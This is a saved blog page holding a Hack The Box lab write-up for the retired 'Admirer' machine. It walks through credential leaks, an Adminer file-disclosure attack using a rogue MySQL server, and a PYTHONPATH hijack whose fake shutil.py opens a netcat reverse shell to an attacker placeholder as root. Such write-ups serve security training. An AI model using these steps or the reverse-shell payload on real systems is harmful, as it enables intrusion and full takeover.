





<!DOCTYPE html>
<html lang="en">
<head>

    <title>HTB Write-up | Admirer</title>
    <meta charset="utf-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="HandheldFriendly" content="True" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />

    <link rel="stylesheet" type="text/css" href="../assets/built/screen.css%3Fv=9f31058e11.css" />

    <link rel="canonical" href="index.html" />
    <meta name="referrer" content="no-referrer-when-downgrade" />
    <link rel="amphtml" href="amp/index.html" />
    
    <meta property="og:type" content="article" />
    <meta property="og:title" content="HTB Write-up | Admirer" />
    <meta property="og:description" content="Write-up for Adminer, a retired HTB machine." />
    <meta property="og:url" content="inesmartins.github.io/htb-write-up-admirer/" />
    <meta property="og:image" content="inesmartins.github.io/content/images/2020/10/admirer.png" />
    <meta property="article:published_time" content="2020-10-22T09:07:19.000Z" />
    <meta property="article:modified_time" content="2020-11-27T23:02:44.000Z" />
    <meta property="article:tag" content="htb" />
    <meta property="article:tag" content="ftp" />
    <meta property="article:tag" content="adminer" />
    <meta property="article:tag" content="mysql" />
    <meta property="article:tag" content="privesc" />
    <meta property="article:tag" content="python" />
    
    <meta name="twitter:card" content="summary_large_image" />
    <meta name="twitter:title" content="HTB Write-up | Admirer" />
    <meta name="twitter:description" content="Write-up for Adminer, a retired HTB machine." />
    <meta name="twitter:url" content="inesmartins.github.io/htb-write-up-admirer/" />
    <meta name="twitter:image" content="inesmartins.github.io/content/images/2020/10/admirer.png" />
    <meta name="twitter:label1" content="Written by" />
    <meta name="twitter:data1" content="Inês Martins" />
    <meta name="twitter:label2" content="Filed under" />
    <meta name="twitter:data2" content="htb, ftp, adminer, mysql, privesc, python" />
    <meta property="og:image:width" content="598" />
    <meta property="og:image:height" content="380" />
    
    <script type="application/ld+json">
{
    "@context": "https://schema.org",
    "@type": "Article",
    "publisher": {
        "@type": "Organization",
        "name": "",
        "url": "inesmartins.github.io/",
        "logo": {
            "@type": "ImageObject",
            "url": "inesmartins.github.io/favicon.ico",
            "width": 48,
            "height": 48
        }
    },
    "author": {
        "@type": "Person",
        "name": "Inês Martins",
        "image": {
            "@type": "ImageObject",
            "url": "inesmartins.github.io/content/images/2021/08/Screenshot-2021-08-22-at-21.31.59.png",
            "width": 592,
            "height": 572
        },
        "url": "inesmartins.github.io/author/ines/",
        "sameAs": [
            "https://gist.github.com/inesmartins/"
        ]
    },
    "headline": "HTB Write-up | Admirer",
    "url": "inesmartins.github.io/htb-write-up-admirer/",
    "datePublished": "2020-10-22T09:07:19.000Z",
    "dateModified": "2020-11-27T23:02:44.000Z",
    "image": {
        "@type": "ImageObject",
        "url": "inesmartins.github.io/content/images/2020/10/admirer.png",
        "width": 598,
        "height": 380
    },
    "keywords": "htb, ftp, adminer, mysql, privesc, python",
    "description": "Write-up for Adminer, a retired HTB machine.",
    "mainEntityOfPage": {
        "@type": "WebPage",
        "@id": "inesmartins.github.io/"
    }
}
    </script>

    <meta name="generator" content="Ghost 4.7" />
    <link rel="alternate" type="application/rss+xml" title="" href="../rss/index.html" />
    <script defer src="https://unpkg.com/@tryghost/portal@~1.5.1/umd/portal.min.js" data-ghost="inesmartins.github.io/"></script><style id="gh-members-styles">.gh-post-upgrade-cta-content,
.gh-post-upgrade-cta {
    display: flex;
    flex-direction: column;
    align-items: center;
    font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Oxygen, Ubuntu, Cantarell, 'Open Sans', 'Helvetica Neue', sans-serif;
    text-align: center;
    width: 100%;
    color: #ffffff;
    font-size: 16px;
}

.gh-post-upgrade-cta-content {
    border-radius: 8px;
    padding: 40px 4vw;
}

.gh-post-upgrade-cta h2 {
    color: #ffffff;
    font-size: 28px;
    letter-spacing: -0.2px;
    margin: 0;
    padding: 0;
}

.gh-post-upgrade-cta p {
    margin: 20px 0 0;
    padding: 0;
}

.gh-post-upgrade-cta small {
    font-size: 16px;
    letter-spacing: -0.2px;
}

.gh-post-upgrade-cta a {
    color: #ffffff;
    cursor: pointer;
    font-weight: 500;
    box-shadow: none;
    text-decoration: underline;
}

.gh-post-upgrade-cta a:hover {
    color: #ffffff;
    opacity: 0.8;
    box-shadow: none;
    text-decoration: underline;
}

.gh-post-upgrade-cta a.gh-btn {
    display: block;
    background: #ffffff;
    text-decoration: none;
    margin: 28px 0 0;
    padding: 8px 18px;
    border-radius: 4px;
    font-size: 16px;
    font-weight: 600;
}

.gh-post-upgrade-cta a.gh-btn:hover {
    opacity: 0.92;
}</style>
    <!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-180659126-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());
  gtag('config', 'UA-180659126-1');
</script>
<script>
    window.onload = function(e){ 
	    var copyrightElement = document.getElementsByClassName('copyright')[0];
    	copyrightElement.innerHTML = '<p>Inês Martins © 2021</p>'
	    copyrightElement.innerHTML += '<p>Banner by Josan Gonzalez aka <a href="https://www.artstation.com/josan">Death Burger</a>'
	}
</script>
<!-- Styles -->
<style>
    .gh-head-actions,
    .footer-cta, 
    .gh-head-button {
        display: none;
    }
    .article-image img {
        max-height: 400px;
        object-fit: contain;
    }
</style><style>:root {--ghost-accent-color: #000000;}</style>

</head>
<body class="post-template tag-htb tag-ftp tag-adminer tag-mysql tag-privesc tag-python">
<div class="viewport">

    <header id="gh-head" class="gh-head has-cover">
        <nav class="gh-head-inner inner gh-container">

            <div class="gh-head-brand">
                <a class="gh-head-logo" href="../index.html">
                        
                </a>
                <a class="gh-burger" role="button">
                    <div class="gh-burger-box">
                        <div class="gh-burger-inner"></div>
                    </div>
                </a>
            </div>
            <div class="gh-head-menu">
                <ul class="nav">
    <li class="nav-home"><a href="../index.html">Home</a></li>
</ul>

            </div>
            <div class="gh-head-actions">
                <div class="gh-social">
                </div>

                    <a class="gh-head-button" href="index.html#/portal/signup">Subscribe</a>
            </div>
        </nav>
    </header>

    <main>
        


<article class="article post tag-htb tag-ftp tag-adminer tag-mysql tag-privesc tag-python">

    <header class="article-header gh-canvas">

        <section class="article-tag">
            <a href="../tag/htb/index.html">htb</a>
        </section>

        <h1 class="article-title">HTB Write-up | Admirer</h1>

        <p class="article-excerpt">Write-up for Adminer, a retired HTB machine.</p>

        <div class="article-byline">
            <section class="article-byline-content">
                <ul class="author-list">
                    <li class="author-list-item">
                        <a href="../author/ines/index.html" class="author-avatar">
                            
                        </a>
                    </li>
                </ul>
                <div class="article-byline-meta">
                    <h4 class="author-name"><a href="../author/ines/index.html">Inês Martins</a></h4>
                    <div class="byline-meta-content">
                        <time class="byline-meta-date" datetime="2020-10-22">Oct 22, 2020</time>
                        <span class="byline-reading-time"><span class="bull">&bull;</span> 9 min read</span>
                    </div>
                </div>
            </section>
        </div>

        <figure class="article-image">
            
        </figure>
    </header>

    <section class="gh-content gh-canvas">
        <p><em>Retired machine can be found <a href="https://www.hackthebox.eu/home/machines/profile/248">here</a>.</em></p><h2 id="scanning">Scanning</h2><p>As always, we start with some basic scanning, with tells us that the machine has:</p><ul><li>an <code>FTP</code> service (vsftp) running on port 21;</li><li>an <code>OpenSSH</code> service running on port 22;</li><li>an <code>Apache</code> web server running on port 80:</li></ul><!--kg-card-begin: markdown--><pre><code>~ nmap -sV -sC -A admirer.htb

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-08 15:37 WEST
Nmap scan report for admirer.htb (10.10.10.187)
Host is up (0.043s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey:
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/admin-dir
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Admirer
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
</code></pre>
<!--kg-card-end: markdown--><p>The web application is just a very simple image gallery, there's no authentication or anything that immediately stands out, so we start by exploring the disallowed entry (<code>/admin-dir</code>) found during the scan.</p><figure class="kg-card kg-image-card"></figure><p>We can't directly access the admin-dir directory but the <a href="http://admirer.htb/robots.txt">robots.txt</a> file has a little clue left to us by "waldo":</p><!--kg-card-begin: markdown--><pre><code>User-agent: *

# This folder contains personal contacts and creds, so no one -not even robots- should see it - waldo
Disallow: /admin-dir
</code></pre>
<!--kg-card-end: markdown--><p>With this small clue, we find 2 files:</p><ul><li><a href="http://admirer.htb/admin-dir/credentials.txt">http://admirer.htb/admin-dir/credentials.txt</a></li></ul><!--kg-card-begin: markdown--><pre><code>[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
</code></pre>
<!--kg-card-end: markdown--><ul><li><a href="http://admirer.htb/admin-dir/contacts.txt">http://admirer.htb/admin-dir/contacts.txt</a>:</li></ul><!--kg-card-begin: markdown--><pre><code>##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb

##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb
# Amy
Email: a.bialik@admirer.htb
# Leonard
Email: l.galecki@admirer.htb

#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb
# Bernadette
Email: b.rauch@admirer.htb
</code></pre>
<!--kg-card-end: markdown--><p>Let's do a quick roundup of what we have so far:</p><ol><li>A list of users (with first name and email) that all seem to match the names of Big Bang Theory's characters (except Sheldon Cooper who is instead Waldo Cooper);</li><li>Credentials to one email account (w.cooper@admirer.htb);</li><li>Credentials to one FTP account (ftpuser);</li><li>Credentials to one Wordpress account (admin).</li></ol><p>Since we don't yet know of a way to access the email server or the Wordpress account, we try to explore the FTP service:</p><!--kg-card-begin: markdown--><pre><code>$ ftp 10.10.10.187

Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:kali): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp&gt; pass
Passive mode on.

ftp&gt; ls
227 Entering Passive Mode (10,10,10,187,175,74)
150 Here comes the directory listing.
-rw-r--r-- 1 0 0 3405 Dec 02 21:24 dump.sql
-rw-r--r-- 1 0 0 5270987 Dec 03 21:20 html.tar.gz
226 Directory send OK.

</code></pre>
<!--kg-card-end: markdown--><ol><li>The <code>dump.sql</code> file contains a dump of a MariaDB database called <strong>admirerdb</strong>. This DB contains only one table - Items - which includes the images and respective metadata that appear on the site, so nothing too exciting;</li><li>The <code>html.tar.gz</code> includes a bunch of files that look like a backup of the current web application. Here are some of the most noteworthy:</li></ol><h3 id="robots-txt">robots.txt</h3><p>The backup version of the robots.txt file disallows <code>/w4ld0s_s3cr3t_d1r</code> instead of <code>/admin-dir</code>.</p><!--kg-card-begin: markdown--><pre><code>User-agent: *
This folder contains personal stuff, so no one (not even robots!) should see it - waldo
Disallow: /w4ld0s_s3cr3t_d1r
</code></pre>
<!--kg-card-end: markdown--><h3 id="index-php">index.php</h3><p>Contains the code for the main page of the web application, including some credentials for the admirerdb.</p><!--kg-card-begin: markdown--><pre><code>...
&lt;div id=&quot;main&quot;&gt;
&lt;?php
    $servername = &quot;localhost&quot;;
    $username = &quot;waldo&quot;;
    $password = &quot;]F7jLHw:*G&gt;UPrTo}~A&quot;d6b&quot;;
    $dbname = &quot;admirerdb&quot;;

    // Create connection
    $conn = new mysqli($servername, $username, $password, $dbname);
    
    // Check connection
    if ($conn-&gt;connect_error) {
        die(&quot;Connection failed: &quot; . $conn-&gt;connect_error);
    }

    $sql = &quot;SELECT * FROM items&quot;;
    $result = $conn-&gt;query($sql);

    if ($result-&gt;num_rows &gt; 0) {
        // output data of each row
        while($row = $result-&gt;fetch_assoc()) {
            echo &quot;&lt;article class='thumb'&gt;&quot;;
            echo &quot;&lt;a href='&quot;.$row[&quot;image_path&quot;].&quot;' class='image'&gt;&lt;img src='&quot;.$row[&quot;thumb_path&quot;].&quot;' alt='' /&gt;&lt;/a&gt;&quot;;
            echo &quot;&lt;h2&gt;&quot;.$row[&quot;title&quot;].&quot;&lt;/h2&gt;&quot;;
	    	echo &quot;&lt;p&gt;&quot;.$row[&quot;text&quot;].&quot;&lt;/p&gt;&quot;;
	    	echo &quot;&lt;/article&gt;&quot;;
        }
    } else {
        echo &quot;0 results&quot;;
    }
    $conn-&gt;close();
?&gt;
&lt;/div&gt;
...
</code></pre>
<!--kg-card-end: markdown--><h3 id="w4ld0s_s3cr3t_d1r-credentials-txt">w4ld0s_s3cr3t_d1r/credentials.txt</h3><p>There's a credentials.txt file which contains the same credentials as found on <a href="http://admirer.htb/admin-dir/credentials.txt">http://admirer.htb/admin-dir/credentials.txt</a> and one additional cred:</p><!--kg-card-begin: markdown--><pre><code>[Bank Account]
waldo.11
Ezy]m27}OREc$
</code></pre>
<!--kg-card-end: markdown--><h3 id="utility_scripts-db_admin-php">utility_scripts/db_admin.php</h3><p>There's a small script that handles the connection with the database, which contains some credentials:</p><!--kg-card-begin: markdown--><pre><code>&lt;?php
    $servername = &quot;localhost&quot;;
    $username = &quot;waldo&quot;;
    $password = &quot;Wh3r3_1s_w4ld0?&quot;;
    
    // Create connection
    $conn = new mysqli($servername, $username, $password);
    
    // Check connection
    if ($conn-&gt;connect_error) {
        die(&quot;Connection failed: &quot; . $conn-&gt;connect_error);
    }
    echo &quot;Connected successfully&quot;;
    
    // TODO: Finish implementing this or find a better open source alternative
?&gt;

</code></pre>
<!--kg-card-end: markdown--><p>So, now we have 2 new credentials:</p><ul><li>one for a bank account (waldo.11);</li><li>one for a mySQL database (waldo);</li></ul><p>Going back to the deployed version of the web application, the <a href="http://admirer.htb/w4ld0s_s3cr3t_d1r/contacts.txt">w4ld0s_s3cr3t_d1r</a> doesn't seem to be available anymore, but the <a href="http://10.10.10.187/utility-scripts/">utility_scripts</a> dir does exist.</p><p>Of all the files on the backup, the <a href="http://10.10.10.187/utility-scripts/admin_tasks.php">admin-tasks page</a> is the most interesting. This page allows any user to check very simple info about the system:</p><figure class="kg-card kg-image-card kg-width-full"></figure><p>At this point I was a bit stuck but after reviewing all the previous clues I realised I missed something on the db_admin.php file:</p><pre><code>// TODO: Finish implementing this or find a better open source alternative
</code></pre><p>After some googling, I realised that the "better open source alternative" to database administration is likely the <a href="https://www.adminer.org/">Adminer</a> tool - the name likeness was a dead giveaway. </p><p>And this brings us to the <a href="http://10.10.10.187/utility-scripts/adminer.php">adminer.php</a> page:</p><figure class="kg-card kg-image-card"></figure><hr><h2 id="exploiting-adminer">Exploiting Adminer</h2><p>After trying (and failing) to login with all of the credentials previously found, I decided to search for Adminer vulnerabilities. </p><p>Turns out <a href="https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability ">Adminer 4.6.2 is vulnerable to a file disclosure vulnerability</a>.</p><p>So I installed and launched an instance of mySQL server on my machine and then <strong>added a new local user</strong> that can access this mySQL server from the admirer.htb host using the password 'password':</p><!--kg-card-begin: markdown--><pre><code>~ /usr/local/mysql/bin/mysql -u root -p
Enter password:
...

mysql&gt; create user 'waldo'@'10.10.10.187' IDENTIFIED WITH mysql_native_password  BY 'password';
Query OK, 0 rows affected (0.01 sec)

mysql&gt; select user, host from mysql.user;
+------------------+--------------+
| user             | host         |
+------------------+--------------+
| waldo            | 10.10.10.187 |
| mysql.infoschema | localhost    |
| mysql.session    | localhost    |
| mysql.sys        | localhost    |
| root             | localhost    |
+------------------+--------------+
5 rows in set (0.00 sec)
</code></pre>
<!--kg-card-end: markdown--><p>In order to get this to work I had to add some additional configuration to my server ('/etc/my.cnf'):</p><!--kg-card-begin: markdown--><pre><code>[mysqld]
default_authentication_plugin  =  mysql_native_password
local-infile                   = 1
</code></pre>
<!--kg-card-end: markdown--><p>Note that the <a href="https://dev.mysql.com/doc/refman/8.0/en/server-system-variables.html#sysvar_local_infile">local-infile</a> variable should be set to true as to allow us to load data from local files into the DB, which we'll need in a following step.</p><p>Once this is done, we can login as our new user from the Adminer client with password 'password'. Note that the server IP should correspond to the IP where you setup the MySQL server and that you need to specify the port if it's not the default (3306).</p><figure class="kg-card kg-image-card"></figure><p>After logging into the system, we can access the SQL interface and can send commands directly to the machine. </p><p><strong>Our goal is to load local files from the admirer.htb machine to a new DB in our local mySQL server. </strong></p><p>So, first things first, we need to create a valid db with a table that will receive the data. Note that this table should have a field that should support big lines of text content.</p><!--kg-card-begin: markdown--><pre><code>mysql&gt; create database test;

mysql&gt; use test;
Database changed

mysql&gt; create table tt (line varchar(1000));
Query OK, 0 rows affected (0.01 sec)
</code></pre>
<!--kg-card-end: markdown--><p>Also, you need to grant permission for your user to be able to access that data: </p><!--kg-card-begin: markdown--><pre><code>mysql&gt; grant all privileges on test.tt to 'waldo'@'10.10.10.187';
Query OK, 0 rows affected (0.04 sec)
</code></pre>
<!--kg-card-end: markdown--><p>Going back to our SQL interface, the files most likely to contain valid credentials are index.php and db_admin.php, where we previously found outdated DB credentials.</p><figure class="kg-card kg-image-card"></figure><p>To see the results we can either access the data directly on the SQL interface or go to our mySQL server and query the data.</p><!--kg-card-begin: markdown--><pre><code>~ select line from test.tt;

...
$servername = &quot;localhost&quot;;
$username = &quot;waldo&quot;;
$password = &quot;&amp;&lt;h5b~yK3F#{PaPB&amp;dA}{H&gt;&quot;;
$dbname = &quot;admirerdb&quot;;
...
</code></pre>
<!--kg-card-end: markdown--><p>Finally, we have credentials for the admirerdb database and as it turns out waldo's SSH credentials:</p><!--kg-card-begin: markdown--><pre><code>ssh waldo@10.10.10.187
waldo@10.10.10.187's password:
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Mon Jun  8 21:25:38 2020 from 10.10.14.95
waldo@admirer:~$ 
</code></pre>
<!--kg-card-end: markdown--><h3 id="useful-resources">Useful Resources</h3><ul><li><a href="https://www.dev2qa.com/how-to-use-mysql-on-mac/">https://www.dev2qa.com/how-to-use-mysql-on-mac/</a></li><li><a href="https://github.com/Gifts/Rogue-MySql-Server/blob/master/rogue_mysql_server.py">https://github.com/Gifts/Rogue-MySql-Server/blob/master/rogue_mysql_server.py</a></li><li><a href="https://w00tsec.blogspot.com/2018/04/abusing-mysql-local-infile-to-read.html">https://w00tsec.blogspot.com/2018/04/abusing-mysql-local-infile-to-read.html</a></li><li><a href="https://stackoverflow.com/questions/14779104/how-to-allow-remote-connection-to-mysql">https://stackoverflow.com/questions/14779104/how-to-allow-remote-connection-to-mysql</a></li></ul><hr><h2 id="privilege-escalation">Privilege Escalation</h2><p>Now authenticated as <code>waldo</code>, we started by running <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">LinPEAS</a>, which helped us find some interesting stuff:</p><!--kg-card-begin: markdown--><pre><code>[+] Readable files belonging to root and readable by me but not world readable
-rwxr----- 1 root admins 198 Dec  2  2019 /opt/scripts/backup.py
</code></pre>
<!--kg-card-end: markdown--><p>On the <code>/opt/scripts/</code> directory we find the <code>admin_tasks</code> bash script which is called by the administrative interface we previously saw. </p><p>At first glance there wasn't any obvious way to exploit this script but, as you can see below, there is a "Backup web data" option which executes the <code>backup.py</code> script as root.</p><!--kg-card-begin: markdown--><pre><code>...
backup_web()
{
    if [ &quot;$EUID&quot; -eq 0 ]
    then
        echo &quot;Running backup script in the background, it might take a while...&quot;
        /opt/scripts/backup.py &amp;
    else
        echo &quot;Insufficient privileges to perform the selected operation.&quot;
    fi
}
...
</code></pre>
<!--kg-card-end: markdown--><p>The <code>backup.py</code> file, on the other hand, imports the <code>make_archive</code> binary from <code>shutil</code>, which we might be able to exploit by changing the path in which the Python script is executed.</p><!--kg-card-begin: markdown--><pre><code>!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

old ftp directory, not used anymore
dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
</code></pre>
<!--kg-card-end: markdown--><p>So, we need to:</p><ul><li>change the <strong>Python path</strong> to start with a directory that we control, e.g.: /home/waldo/.abc/;</li><li>create a <strong>shutil.py</strong> file inside /home/waldo/.abc/;</li><li>add a <strong>make_archive</strong> function to shutil.py that uses the same signature (3 fields) but instead of archiving the web content returns a shell as root;</li></ul><p>Let's start with our mock <code>shutil.py</code>:</p><!--kg-card-begin: markdown--><pre><code>waldo@admirer:~$ nano /home/waldo/.abc/shutil.py

import os

def make_archive(a, b, c):
    os.system(&quot;nc [attacker_ip] [attacker_port] -e '/bin/sh'&quot;)
    
waldo@admirer:~$ chmod +x /home/waldo/.abc/shutil.py
</code></pre>
<!--kg-card-end: markdown--><p>Don't forget to create a listener on the port you specify above:</p><!--kg-card-begin: markdown--><p><code>nc -l [PORT]</code></p>
<!--kg-card-end: markdown--><p>Now, all we need to do is change the python path on the call for the admin_tasks script:</p><!--kg-card-begin: markdown--><pre><code>waldo@admirer:~$ sudo PYTHONPATH=/home/waldo/.abc/ /opt/scripts/admin_tasks.sh

[sudo] password for waldo: &amp;&lt;h5b~yK3F#{PaPB&amp;dA}{H&gt;

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
</code></pre>
<!--kg-card-end: markdown--><p>And we receive a shell as root which allows us to print the root flag!</p><p>Hope you enjoyed it :)</p><hr>
    </section>


</article>

<section class="footer-cta">
    <div class="inner">
        <h2>Sign up for more like this.</h2>
        <a class="footer-cta-button" href="index.html#/portal">
            <div>Enter your email</div>
            <span>Subscribe</span>
        </a>
    </div>
</section>


<aside class="read-more-wrap">
    <div class="read-more inner">


                    
<article class="post-card post ">

    <a class="post-card-image-link" href="../exploiting-deep-links-in-android-part-3/index.html">
        
    </a>

    <div class="post-card-content">

        <a class="post-card-content-link" href="../exploiting-deep-links-in-android-part-3/index.html">
            <header class="post-card-header">
                <h2 class="post-card-title">Exploiting Deep Links in Android - Part 3</h2>
            </header>
            <section class="post-card-excerpt">
                <p>So .. what else can we do with deep links? Local File Inclusion (LFI)On part 2 we saw how to achieve LFI via the WebView.loadUrl method, now let's see an alternative that doesn't require the application to contain a WebView.  Imagine an application that receives a parameter via deep</p>
            </section>
        </a>

        <footer class="post-card-meta">
            <ul class="author-list">
                <li class="author-list-item">
                    <a href="../author/ines/index.html" class="static-avatar">
                        
                    </a>
                </li>
            </ul>
            <div class="post-card-byline-content">
                <span><a href="../author/ines/index.html">Inês Martins</a></span>
                <span class="post-card-byline-date"><time datetime="2021-09-04">Sep 4, 2021</time> <span class="bull">&bull;</span> 3 min read</span>
            </div>
        </footer>

    </div>

</article>
                    
<article class="post-card post ">

    <a class="post-card-image-link" href="../mobsf-ipa-binary-analysis-step-by-step/index.html">
        
    </a>

    <div class="post-card-content">

        <a class="post-card-content-link" href="../mobsf-ipa-binary-analysis-step-by-step/index.html">
            <header class="post-card-header">
                <h2 class="post-card-title">MobSF &quot;IPA Binary Analysis&quot; | Step by Step</h2>
            </header>
            <section class="post-card-excerpt">
                <p>MobSF is an open source static and dynamic analysis tool for Android and iOS, which can be used to quickly detect major issues on your mobile application. When scanning an .ipa, the "IPA Binary Analysis" section can report multiple issues that can be hard to interpret.  Hopefully this article will</p>
            </section>
        </a>

        <footer class="post-card-meta">
            <ul class="author-list">
                <li class="author-list-item">
                    <a href="../author/ines/index.html" class="static-avatar">
                        
                    </a>
                </li>
            </ul>
            <div class="post-card-byline-content">
                <span><a href="../author/ines/index.html">Inês Martins</a></span>
                <span class="post-card-byline-date"><time datetime="2021-08-21">Aug 21, 2021</time> <span class="bull">&bull;</span> 9 min read</span>
            </div>
        </footer>

    </div>

</article>
                    
<article class="post-card post ">

    <a class="post-card-image-link" href="../exploiting-deep-links-in-android-part-2/index.html">
        
    </a>

    <div class="post-card-content">

        <a class="post-card-content-link" href="../exploiting-deep-links-in-android-part-2/index.html">
            <header class="post-card-header">
                <h2 class="post-card-title">Exploiting Deep Links in Android - Part 2</h2>
            </header>
            <section class="post-card-excerpt">
                <p>In this part, we're going to start to answer the question: "What can you do if you can trick a user into clicking a malicious deep link?" Let's go back to the ABC Bank example. ABC Bank has both a web and an Android application, and they use deep links</p>
            </section>
        </a>

        <footer class="post-card-meta">
            <ul class="author-list">
                <li class="author-list-item">
                    <a href="../author/ines/index.html" class="static-avatar">
                        
                    </a>
                </li>
            </ul>
            <div class="post-card-byline-content">
                <span><a href="../author/ines/index.html">Inês Martins</a></span>
                <span class="post-card-byline-date"><time datetime="2021-08-15">Aug 15, 2021</time> <span class="bull">&bull;</span> 3 min read</span>
            </div>
        </footer>

    </div>

</article>

    </div>
</aside>


    </main>

    <footer class="site-footer outer">
        <div class="inner">
            <section class="copyright"><a href="../index.html"></a> &copy; 2021</section>
            <nav class="site-footer-nav">
                
            </nav>
            <div><a href="https://ghost.org/" target="_blank" rel="noopener">Powered by Ghost</a></div>
        </div>
    </footer>

</div>


<script
    src="https://code.jquery.com/jquery-3.5.1.min.js"
    integrity="sha256-9/aliU8dGd2tb6OSsuzixeV4y/faTqgFtohetphbbj0="
    crossorigin="anonymous">
</script>
<script src="../assets/built/casper.js%3Fv=9f31058e11"></script>
<script>
$(document).ready(function () {
    // Mobile Menu Trigger
    $('.gh-burger').click(function () {
        $('body').toggleClass('gh-head-open');
    });
    // FitVids - Makes video embeds responsive
    $(".gh-content").fitVids();
});
</script>


</body>
</html>
